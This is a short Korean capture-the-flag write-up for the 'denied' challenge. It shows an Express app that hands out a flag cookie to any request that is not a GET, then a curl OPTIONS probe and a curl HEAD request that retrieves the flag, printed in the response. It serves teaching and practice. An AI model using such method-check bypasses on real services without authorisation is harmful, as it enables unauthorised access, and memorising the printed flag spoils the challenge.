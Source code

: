 

<a id="denied"></a>   
       
# denied       
      
856 solves / 53 points        

```javascript
const express = require('express')
const app = express()
const port = 3000

app.get('/', (req, res) => {
  if (req.method == "GET") return res.send("Bad!");
  res.cookie('flag', process.env.FLAG ?? "flag{fake_flag}")
  res.send('Winner!')
})

app.listen(port, () => {
  console.log(`Example app listening on port ${port}`)
})
```           
      
GET 요청 외에 다른 요청을 보내면 플래그를 획득할 수 있다.     
             
```bash
$ curl -X OPTIONS -i http://denied.amt.rs/

HTTP/1.1 200 OK
Allow: GET,HEAD
Content-Length: 8
Content-Type: text/html; charset=utf-8
Date: Wed, 10 Apr 2024 03:38:32 GMT
Etag: W/"8-ZRAf8oNBS3Bjb/SU2GYZCmbtmXg"
Server: Caddy
X-Powered-By: Express

GET,HEAD
```      
`OPTIONS` 요청을 통해 서버가 어떤 요청을 지원하는지 알 수 있다.    

### Exploit Code 
```bash
curl -X HEAD -i http://denied.amt.rs/ 

HTTP/1.1 200 OK
Content-Length: 7
Content-Type: text/html; charset=utf-8
Date: Fri, 05 Apr 2024 15:49:06 GMT
Etag: W/"7-skdQAtrqJAsgWjDuibJaiRXqV44"
Server: Caddy
Set-Cookie: flag=amateursCTF%7Bs0_m%40ny_0ptions...%7D; Path=/
X-Powered-By: Express
```             
       